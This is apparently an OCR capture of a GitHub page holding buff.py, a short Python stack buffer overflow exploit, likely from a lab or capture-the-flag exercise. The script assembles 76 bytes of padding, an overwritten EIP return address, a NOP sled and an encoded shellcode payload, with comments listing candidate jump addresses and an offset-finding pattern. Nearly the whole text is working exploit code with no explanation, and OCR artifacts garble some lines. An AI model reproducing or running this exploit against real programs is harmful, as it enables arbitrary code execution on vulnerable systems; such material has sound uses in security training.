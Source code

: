 ```
questions are pointed and in sections of what techniques we should be using
```
# buff.py
```
#!/usr/bin/env python
 2
 3 buffer = "A" * 76
 4 eip = "\x4b\x67\xf6\xf7"
 5 nop = "\x90" * 15
 6 buf =  b""
 7 buf += b"\xbe\x16\x10\xa5\xa1\xdd\xc6\xd9\x74\x24\xf4\x5d"
 8 buf += b"\x2b\xc9\xb1\x0b\x83\xed\xfc\x31\x75\x10\x03\x75"
 9 buf += b"\x10\xf4\xe5\xcf\xaa\xa0\x9c\x42\xcb\x38\xb2\x01"
10 buf += b"\x9a\x5f\xa4\xea\xef\xf7\x35\x9d\x20\x65\x5f\x33"
11 buf += b"\xb6\x8a\xcd\x23\xcf\x4c\xf2\xb3\xa7\x24\x9d\xd2"
12 buf += b"\x2a\xdd\x61\x42\xe6\x94\x83\xa1\x88"
13 #0xf7df1b51 \x51\x1b\xdf\f7
14 #0xf7f6674b \x4b\x67\xf6\xf7
15 #0xf7f72753 \x53\x27\xf7\f7
16 # 0xf7f72c6b \x6b\x2c\xf7\xf7
17 # buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A$
18 print(buffer+eip+nop+buf)
```
